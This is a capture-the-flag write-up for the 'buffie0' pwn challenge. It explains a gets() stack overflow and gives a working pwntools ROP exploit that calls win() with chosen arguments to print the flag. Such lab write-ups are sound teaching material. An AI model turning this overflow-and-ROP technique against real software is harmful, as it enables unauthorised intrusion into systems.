 # buffie0 Pwn challenge

First of all, with `$file` we see that the binary is a `ELF 64-bit LSB executable`. Let's open `ghidra` to analyze it.  
The `main` function looks like this:  

```c
int main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  welcome();
  vuln();
  goodbye();
  return 0;
}
``` 
As we can easily understand, `vuln` is the function that we have to exploit. Analyzing `vuln`:
```c
void vuln(void)

{
  char buf [100];
  
  puts("Tell me your name friend..");
  gets(buf);
  printf("\nYou think you can pwn me %s!?\n",buf);
  return;
}
```
This is pretty straight forward. There is a `gets` function. That means we can do a **Buffer Overflow**. So, we found the vulnerable part of the code.  
We also see that there is a `win` function in the code.  
```c
void win(longlong arg1,longlong arg2)

{
  FILE *__stream;
  char buf [256];
  FILE *f;
  
  if ((arg1 == 0xdeadbeef) && ((arg2 ^ arg1) == 0xdeadbee6)) {
    puts("Go get \'em champ!\n");
    __stream = fopen("./flag.txt","r");
    if (__stream == (FILE *)0x0) {
      puts("Someone stole the flag! Talk to **w3th4nds**\n");
    }
    else {
      fgets(buf,0x100,__stream);
      printf("Enjoy your flag!\n%s",buf);
    }
    return;
  }
  puts("\n\nYou reached win, but you forgot the args.. Better luck next time :)\n\n");
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```
It takes 2 arguments and then there is an `if` which compares if:
* arg1 = 0xdeadbeef
* arg1 ^ arg2 = 0xdeadbee6
and if so, it reads and prints the flag.  

Our goal is:
* Overflow the buffer
* Call `win` with 2 args
* arg1 = 0xdeadbeef and arg2^arg1 = 0xdeadbee6

To get arg2: 0xdeadbeef^0xdeadbee6 = 0x9  
Functions args in 64-bit, got to `rdi`, `rsi`, `rdx` etc.  
So our payload should look like this:  

```sh
payload = junk + pop_rdi + arg1 + pop_rsi + arg2 + fake + win
``` 
I used `pwntools` to exploit it.  

```python
#!/usr/bin/python3
from pwn import *

ip = 'ctf.uniwa.gr'
port = 2004
filename = './buffie0'

def pwn():
    #r = remote(ip, port)
    r = process(filename)
    elf = ELF(filename)
    rop = ROP(elf)
    win = p64(elf.symbols['win'])
    junk = b'z'*120
    arg1 = p64(0xdeadbeef)
    arg2 = p64(0x9)
    pop_rdi = p64((rop.find_gadget(['pop rdi']))[0]) 
    pop_rsi = p64((rop.find_gadget(['pop rsi']))[0]) 
    fake = p64(0x0)
    payload = junk +  pop_rdi + arg1 + pop_rsi + arg2 + fake + win
    r.sendlineafter('friend..', payload)
    r.recvlines(6)
    flag = r.recvline()
    log.success('Flag: {}'.format(flag.decode('utf8')))
pwn()
```
